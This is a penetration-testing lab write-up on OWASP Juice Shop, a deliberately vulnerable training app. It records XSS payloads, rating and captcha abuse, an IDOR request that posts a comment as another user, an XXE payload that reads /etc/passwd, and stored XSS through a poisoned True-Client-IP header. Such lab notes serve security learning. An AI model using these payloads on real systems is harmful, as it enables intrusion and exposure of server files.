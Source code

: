 # Customer Support

After successfully placing an order, click on the "Track Orders" option.

![Pasted image 20250506142359](attachments/Pasted%20image%2020250506142359.png)

#### Testing Reflected `id` Parameter

- Attempted injections like:
    
    ```html
    <script>alert(1)</script>
    <script>alert(1)<%2Fscript>
    <script>alert(1)<%252Fscript>
    <img src=x onerror=alert(1)>
    ```
    
    All inputs were filtered and did not trigger any XSS vulnerability.
    
![Pasted image 20250506143242](attachments/Pasted%20image%2020250506143242.png)

---
#### Customer Feedback Abuse

- Using ZAP, you can manipulate the `rating` JSON parameter by setting it to `0` or even a negative value, even though the UI doesn’t allow it.
    
- **Captcha Bypass:**  
    The captcha did not prevent submitting multiple requests; its restriction is purely UI-based.
    
#### IDOR (Insecure Direct Object References)

- You can post a comment on behalf of another user by changing the `UserId` in the request:
    
    ```json
    {  
      "UserId" : 2,  
      "captchaId" : 6,  
      "captcha" : "19",  
      "comment" : "test comment",  
      "rating" : "-1"  
    }
    ```
    
![Pasted image 20250506171518](attachments/Pasted%20image%2020250506171518.png) 

---
#### Complaint Form

- Upon inspecting the "Choose file" button, it revealed the accepted file types as ‘custom file,’ indicating restricted uploads.
    
    - In the browser’s inspect tool, you will see this in the html code 
		```html
		aria-label="Input area for uploading a single invoice PDF or XML B2B order file or a ZIP archive containing multiple invoices or orders<!---->"
		``` 
	
	- Search with `upload` in the `main.js` file and you will find that it mentioned that XML files were supported:
    
	    ```js
	    uploader = new Tt.l0({
	        allowedMimeType: ["application/pdf", "application/xml", "text/xml", "application/zip", "application/x-zip-compressed", "multipart/x-zip", "application/yaml", "application/x-yaml", "text/yaml", "text/x-yaml"]
	    });
	    ```
    
- **XXE Attack:**  
    An XML External Entity (XXE) payload worked:
    
    ```xml
    <?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
    ```

    The response printed the contents of `/etc/passwd`.
    
![Pasted image 20250506172845](attachments/Pasted%20image%2020250506172845.png)

---
#### Manipulating the Last Login IP

- You can try manipulating the `X-Forwarded-For` header to alter the last login IP, but the server didn’t respond as expected.
    
    However, if you have access to the server code, you can inspect `/rest/saveLoginIp` requests and see that a custom header, `True-Client-IP`, is used to set the IP.
	    
    - By injecting an XSS payload via this header, like `<img src=x onerror=alert("xss")/>`, you can trigger a stored XSS attack. Upon relogging in and visiting the last login IP page, the alert will be triggered.
	    - Example Payload: `True-Client-IP: <img src=x onerror=alert("xss")/>`
	    - Note: you will need to set a breakpoint on zap to that endpoint `/rest/saveLoginIp` to set this poisoned header manually when you press the logout button from the browser, send that request, login again, visit the last IP page, and it will be alerted, So, this is a stored xss via header poisoning
    
> For our case with Juice shop, you could find the source code repo from the main menu and it is available at [juice-shop/juice-shop: OWASP Juice Shop: Probably the most modern and sophisticated insecure web application](https://github.com/juice-shop/juice-shop)